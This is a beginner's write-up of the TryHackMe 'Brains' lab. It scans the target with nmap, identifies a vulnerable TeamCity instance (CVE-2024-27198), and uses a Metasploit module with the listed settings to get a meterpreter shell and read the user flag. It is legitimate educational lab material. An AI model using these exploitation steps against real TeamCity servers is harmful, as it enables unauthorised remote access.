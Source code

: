 
# Brains Task 1

This is my first write-up for the TryHackMe room Brains. I’ll walk through the steps I used to get the user flag, explain my thought process, and include commands and screenshots so you can reproduce the steps. Hope this helps — and feel free to DM me if anything’s unclear! :)



## Disclaimer
This write-up is for educational purposes only.

It is intended to document my personal learning experience while working through the TryHackMe room. All information provided is meant to help others understand the techniques and concepts involved in ethical hacking and cybersecurity.

I do not condone or promote any form of illegal activity.

Always ensure you have proper authorization before testing or accessing any system. Hacking without permission is illegal and unethical.

## Scanning Network
First, I run an Nmap scan to discover open services:

`nmap -sC -A IP`

![Nmap Scan](https://raw.githubusercontent.com/D3ad-Byt3/THM-WriteUps/main/Brains/images/nmap-scan.png)

The scan shows ports 22, 80, and 50000 are open.



## Checking open ports
### port 80
I opened the web service on port `80` (HTTP) to see what’s running:


![Port 80](https://raw.githubusercontent.com/D3ad-Byt3/THM-WriteUps/main/Brains/images/port-80.png)

The page shows a maintenance message and the source contains nothing useful, so I moved on to other services.

### port 50000
Visiting port 50000 shows a login.html page (looks like TeamCity):

![Port 50000](https://raw.githubusercontent.com/D3ad-Byt3/THM-WriteUps/main/Brains/images/port-50000.png)

Here we can see login.html.
We can try bruteforce creditentals bur first lets take look at TeamCity vesrion
![TeamCity version](https://raw.githubusercontent.com/D3ad-Byt3/THM-WriteUps/main/Brains/images/version.png)


A quick web search for that version shows at least two public CVEs affecting it:
![TeamCity version](https://raw.githubusercontent.com/D3ad-Byt3/THM-WriteUps/main/Brains/images/search.png)



CVE-2024-27198

CVE-2024-27199


## Getting `flag.txt` with Metasploit
let's start `msfconsole` and search for CVE-2024-27198
![Search resoults](https://raw.githubusercontent.com/D3ad-Byt3/THM-WriteUps/main/Brains/images/msf-search.png)
We can se there is exploit for that CVE. So let's try it.

Fisrt we type `use 0` and then look at requirements with `options`

![Selecting exploit](https://raw.githubusercontent.com/D3ad-Byt3/THM-WriteUps/main/Brains/images/options.png)

Here we can see reqired settings so let's set them:

`set rhosts [IP]` - RHOST is Target's IP

`set rport 50000` - RPORT is port of login page where TeamCity is located

`set targeturi http://[IP]:50000/` - TARGETURI is base path to TeamCity

Because we are using THM VPN we have to change listening IP with tun0 It will be shwon with `ipconfig`

`set LHOST [tun0 IP]`

Once again we run `option` to make sure everything is setted up

![run exploit](https://raw.githubusercontent.com/D3ad-Byt3/THM-WriteUps/main/Brains/images/run.png)

If everything is good we type `run` and wait for exploit to do it's thing until we see `meterpreter >`

![yay](https://raw.githubusercontent.com/D3ad-Byt3/THM-WriteUps/main/Brains/images/meterpreter.png)

Yay! We are in now as instuctions says `flag.txt` should be loacated in user's home directory so let's check

Just use `cd ..` and `ls` until we see `home` directory

![yay](https://raw.githubusercontent.com/D3ad-Byt3/THM-WriteUps/main/Brains/images/cdls.png)

Then `cd` into ubuntu and type `ls`

![yay](https://raw.githubusercontent.com/D3ad-Byt3/THM-WriteUps/main/Brains/images/cdcd.png)

And there is our `flag.txt`

now just use `cat flag.txt` and paste into task one !

![yay](https://raw.githubusercontent.com/D3ad-Byt3/THM-WriteUps/main/Brains/images/flagg.png)




## Thank you

Thank you for reading through this write-up.  
This was my first attempt at documenting a TryHackMe room, and I hope it provided a clear and helpful walkthrough.  
Any feedback or suggestions for improvement are always welcome.



**Author:** D3adByt3
